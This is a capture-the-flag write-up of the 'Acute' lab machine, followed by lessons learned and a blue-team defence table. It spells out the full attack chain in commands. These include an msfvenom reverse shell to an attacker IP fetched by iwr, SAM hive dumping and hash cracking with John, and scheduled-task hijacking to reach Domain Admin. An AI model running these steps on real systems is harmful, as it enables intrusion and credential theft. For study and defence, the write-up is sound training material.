

### Phase 1: Reconnaissance (Information Gathering)

The first step in any engagement is a thorough reconnaissance of the target system to understand its attack surface.

A full TCP port scan was initiated to identify all open services on the target IP address, providing a comprehensive map of potential entry points.

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.129.136.40 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.136.40
```


```
The only port is 443 it might have firewall so we should keep this in mind and we got the hostanme which we will add to our hosts file:
```
```bash
echo "10.129.136.40 atsserver.acute.local" | sudo tee -a /etc/hosts
```

Now we will check the website:





The webiste is incomplete: many links don't work as well as directories. We can come up with a user list now from "Who we work with" field:

```
Aileen Wallace
Charlotte Hall
Evan Davies
Ieuan Monks
Joshua Morgan
Lois Hopkins
```

Also the website is running on wordpress so I tried to scan it and used even flag to disable cerificate check but the default wp directory gave me 404 error so I couldn't scan it for now. Search button seems to not be vulnerable for sqli or functional at all. On the same page with "Who we work with" field in the top right corner we can find a "New Starter Forms" that points to "https://atsserver.acute.local/New_Starter_CheckList_v7.docx". I'll show only interesting findings:

```
The University’s staff induction pages can be found at: https://atsserver.acute.local/Staff 
The Staff Induction portal can be found here: https://atsserver.acute.local/Staff/Induction 
they will need to change it from the default Password1!.
Run through the new PSWA to highlight the restrictions set on the sessions named dc_manage.
Complete the remote training (https://atsserver.acute.local/Acute_Staff_Access/en-US/logon.aspx?ReturnUrl=%2fAcute_Staff_Access)
**Lois is the only authorized personnel to change Group Membership, Contact Lois to have this approved and changed if required. Only Lois can become site admin. **
```

We now know default password (Password1!), again name Lois she seems to be site admin or we can become one, only third link is worked which is Windows PowerShell Web Access. Now I'm going to use exiftools to check for any metadata:

```bash
wget https://exiftool.org/Image-ExifTool-13.32.tar.gz
tar -xvf Image-ExifTool-13.32.tar.gz
cd Image-ExifTool-13.32
./exiftool ../New_Starter_CheckList_v7.docx
```


### Phase 2: Initial Access

Again PSWA but now we know username format: first letter of first name followed by last name, also machine name is Acute-PC01. With all this information we can try to login:

```
awallace
chall
edavies
imonks
jmorgan
lhopkins
```


valid credentials are:

```
edavies:Password1!
Acute-PC01
```


Now we need a reverse shell for that use msfvenom and msfcondole:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.52 LPORT=7777 -f exe > revshell.exe
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 7777
run
```

In another tab:

```bash
sudo python3 -m http.server 8000
```

Now in PSWA:

```
iwr http://10.10.14.52:8000/revshell.exe -outfile revshell.exe
```


Seems like Windows Defender is running. There's uncommon folder in C:\ called Utils:


That's perfect now we can download and execute our reverse shell:


### Phase 3: Privilege Escalation (User)

Now we will donload winpeas and run it:

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250701-bdcab634/winPEASx64.exe
```

Then in msfconsole session:

```bash
upload winPEASx64.exe
shell
.\winPEASx64.exe
```

Nothing useful was found so here I got stuck but I checked machine info I understood that my machine has bugged and no other session was started on my box so I'll restart it and new ip is: 10.129.178.152. I will change ip and repeat steps. Still no another seesion in Winpeas RDP session stated Not found I used ps to monitor processes to find with the same user but there were none only mine revshell.exe. After 2 hours and checking every 15 minutes I decided to look for a hint to go futher so what I was supposed to do was: found a proccess ( interective shell as edavies ) then migrate and use screenshare to find these creds:

```
imonks:W3_4R3_th3_f0rce.
```

Now I will use the same commands that I found that edavies was supposed to type:

```PS
$passwd = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -force
$cred = New-Object System.Management.Automation.PSCredential ("acute\imonks", $passwd)
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock {whoami} -credential $cred
```

Now we will read user flag and ps1 script in imonks's Desktop directory:

```
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {
    Get-Content C:\Users\imonks\Desktop\user.txt 
} -Credential $cred

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {
    Get-Content C:\Users\imonks\Desktop\wm.ps1 
} -Credential $cred
```

Now we have user flag and script is containing these commands:

```
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

We can see that imonks uses creds for user jmorgan who found out to be in the local administrator group:


Now we can change script to make edavies an administrator:

```PS
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { (Get-Content "C:\Users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','net localgroup administrators edavies /add' | Set-Content -Path "C:\Users\imonks\Desktop\wm.ps1" -Force; Get-Content "C:\Users\imonks\Desktop\wm.ps1" }
```
```PS
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock{C:\Users\imonks\Desktop\wm.ps1} -Credential $cred
net localgroup administrators
```


### Phase 4: Lateral Movement

Now we're in administrators group but we have to restart a PSWA session for changes to take effect. So now we will use mimikatz to dump SAM hashes as follows:

```bash
upload mimikatz.exe
shell
.\mimikatz.exe
```

Both versions of mimikatz are not compatible with the version of Windows so we will do it manually using impacket it's a little bit longer:

```PS
reg save HKLM\sam sam.bak
reg save HKLM\system system.bak
exit
download sam.bak
download system.bak
impacket-secretsdump -sam sam.bak -system system.bak LOCAL
```


Now crack it offline with jhon or hashcat:


```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
```
```
                 (Guest)     
Password@123     (Administrator)
```

With a new password we will again use our user list:

```PS
$passwd = ConvertTo-SecureString "Password@123" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("Acute\AWallace", $passwd)
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {whoami} -Credential $cred
```


### Phase 5: Domain Dominance

We got it with the fist user. Now let's enumerate for anything interesting. There's another uncommon folder but now in Program Files folder called Keepmeon with bat file in it:

```PS
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {Get-Content 'C:\Program Files\Keepmeon\keepmeon.bat'} -Credential $cred 
```


The file executed every 5 minutes. Remember in the start we found note about Lois user in the document which stated here to be the only site admin. We will check this group in bloodhound and after typing site it reveals site_admin group:

```PS
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {net group site_admin /domain} -Credential $cred
```


That's exactly what we need to gain a root flag and compromise the whole domain.


```PS
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {Set-Content -Path 'c:\program files\Keepmeon\imonks.bat' -Value 'net group site_admin imonks /add /domain'} -Credential $cred
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {Get-ChildItem 'c:\program files\Keepmeon\'} -Credential $cred

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {net group site_admin /domain} -Credential $cred
```

After 5 mins you should see imonks in site_admin group. We created a new file using AWallance and now after 5 minutes imonks will be added to site_admin group and we will be allowed to add ourselfs to Domain Admins group and read the root flag.


```PS
$passwd = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("acute\imonks", $passwd)
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {net group "Domain Admins" imonks /add /domain} -Credential $cred
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {net group "Domain Admins" /domain} -Credential $cred
```


### Phase 6: Exfiltration

```PS
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {Get-Content C:\Users\Administrator\Desktop\root.txt} -Credential $cred
```

And now we got a root flag!


### What I Learnt from Acute Machine  

#### **1. Credential Harvesting from Public Documents**  
- **Technique**: Extracted username formats (`firstinitial+lastname`) and default passwords (`Password1!`) from metadata in public Word documents using ExifTool.  
- **Lesson**: Unprotected documents often contain operational secrets that simplify password spraying and credential stuffing attacks.  

#### **2. PSWA (PowerShell Web Access) Exploitation**  
- **Technique**:  
  - Used compromised credentials (`edavies:Password1!`) to access restricted PSWA portal.  
  - Bypassed Windows Defender by uploading payloads to non-standard directories (`C:\Utils`).  
- **Lesson**: Web-based management interfaces become critical attack vectors when protected by weak credentials.  

#### **3. Interactive Process Credential Theft**  
- **Technique**: Discovered `imonks:W3_4R3_th3_f0rce.` by monitoring interactive PowerShell processes via screen sharing.  
- **Lesson**: Unmonitored RDP sessions can expose credentials through process memory or user actions.  

#### **4. Scheduled Task Hijacking for Domain Escalation**  
- **Technique**:  
  - Abused writable `keepmeon.bat` (running every 5 minutes as SYSTEM) to add users to privileged groups:  
    ```bash
    net group site_admin imonks /add /domain
    ```  
- **Lesson**: Write permissions to scheduled scripts enable trivial privilege escalation.  

#### **5. Group Policy Object (GPO) Privilege Chaining**  
- **Technique**:  
  - Leveraged `site_admin` membership (gained via task hijacking) to add account to **Domain Admins**.  
  - Exploited PowerShell Remoting (`dc_manage` session) for domain-wide command execution.  
- **Lesson**: Nested group privileges (e.g., `site_admin` → `Domain Admins`) create domino-effect vulnerabilities.  

#### **6. Offline Hash Extraction & Cracking**  
- **Technique**:  
  - Dumped SAM/SYSTEM hives via `reg save`, extracted hashes with `impacket-secretsdump`.  
  - Cracked `Administrator:Password@123` using John the Ripper.  
- **Lesson**: Local admin access enables hash extraction, and password reuse enables lateral movement.  

---

### Reflection  
- **Power of Small Misconfigurations**: A single writable script (`imonks.bat`) led to domain compromise.  
- **Credential Reuse Cascade**: Default password `Password1!` → Compromised `edavies` → Privileged `imonks` → Domain Admin.  
- **Stealth of Scheduled Tasks**: Task-based persistence/privilege escalation evades endpoint monitoring better than noisy exploits.  

---

### Redemption (Blue Team Recommendations)  

| Attack Phase               | Defensive Countermeasures                                                                                                                                                   |  
|----------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|  
| **Credential Harvesting**  | - **Block document metadata**: Use SharePoint sensitivity labels or PowerShell to strip metadata from public files. <br> - Scan documents with DLP tools for sensitive data. |  
| **PSWA Exploitation**      | - **Enforce MFA** for all web-based management interfaces. <br> - **Restrict PSWA access** to jump hosts/VPNs only.                                                         |  
| **Interactive Cred Theft** | - **Monitor RDP sessions**: Alert on unusual process injection (Sysmon Event ID 10). <br> - **Restrict screen sharing** to approved users.                                  |  
| **Scheduled Task Hijack**  | - **Audit task permissions**: Deny write access to `C:\Program Files` via Group Policy. <br> - **Monitor task modifications** (Windows Event ID 4700).                      |  
| **GPO Abuse**              | - **Audit group nesting**: Break inheritance between low-privilege groups (e.g., `site_admin`) and privileged groups. <br> - **Log all `net group` commands**.              |  
| **Hash Extraction**        | - **Enable Credential Guard** to protect LSASS. <br> - **Alert on `reg save`** commands targeting SAM/SYSTEM hives (Sysmon Event ID 12).                                    |  
| **Lateral Movement**       | - **Implement network segmentation**: Isolate domain controllers from user endpoints. <br> - **Enforce LAPS** for unique local admin passwords.                             |  

---

### Key Takeaways for Blue Teams  
1. **Least Privilege > Perimeter Security**:  
   - Acute fell because `site_admin` had unchecked rights. Restrict group modification privileges to dedicated accounts only.  
2. **Metadata Matters**:  
   - Operational documents published externally should undergo metadata sanitization.  
3. **Task Monitoring is Critical**:  
   - Scheduled tasks are prime targets; audit their scripts, permissions, and execution patterns weekly.  
4. **Password Reuse Kills**:  
   - A single default password (`Password1!`) compromised 50% of the domain. Enforce unique passwords aggressively.  